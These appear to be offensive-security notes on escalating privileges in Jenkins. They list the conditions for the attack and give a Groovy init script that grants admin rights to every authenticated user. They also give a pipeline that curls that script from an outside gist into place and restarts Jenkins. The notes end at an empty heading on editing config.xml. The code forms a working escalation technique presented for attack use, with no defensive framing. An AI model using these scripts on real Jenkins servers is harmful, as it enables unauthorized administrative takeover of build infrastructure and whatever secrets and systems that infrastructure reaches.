 # Privilege Escalations
- When new users are created they by default has admin access
- The users can be given specific roles using the Authorization Matrix Plugin
- The attacks we can try is to 




## Give admin access to all authenticated users by executing a groovy script - Technique 1

- The 1st condition for this attack is that the build has to run on the Built-In node , i.e on the Controller.
- The 2nd condition is Jenkins would need a restart after this attack.
- We need to write a init.groovy script that will give the authenticated users admin access 
- We will write a pipeline script to download that init.grooy script that will be replaced in the JENKINS_HOME location.
- init.groovy script will run after the Jenkins initialization, hence a Jenkins reboot is required.
- We will wait for a restart and our low privileged user will have admin access.

init.groovy
``` Groovy
//code copied from http://tdongsi.github.io/blog/2017/12/30/groovy-hook-script-and-jenkins-configuration-as-code/
import jenkins.model.*
def instance = Jenkins.getInstance()

import hudson.security.*
def realm = new HudsonPrivateSecurityRealm(false)
instance.setSecurityRealm(realm)

def strategy = new hudson.security.FullControlOnceLoggedInAuthorizationStrategy()
strategy.setAllowAnonymousRead(false)
instance.setAuthorizationStrategy(strategy)

instance.save()
```

## Give admin access to all authenticated users by executing a groovy script - Technique 2


```
pipeline {
    agent any
    
    stages {
        stage('Copy Groovy Script to JENKINS_HOME') {
            steps {
                sh '''
                    curl -o init.groovy https://gist.githubusercontent.com/dibsy/c42f536d12a406cbd3845aea4f6ac746/raw/b1240be7e950a96929810e5fafbdd76db46a9731/HOOK.groovy
                  '''
            }
        }
        stage('Restart Jenkins') {
            steps {
                script {
                    Jenkins.instance.restart()
                }
            }
        }        
    }
}
```



## Give extra permissions to user by modifying the config.xml file
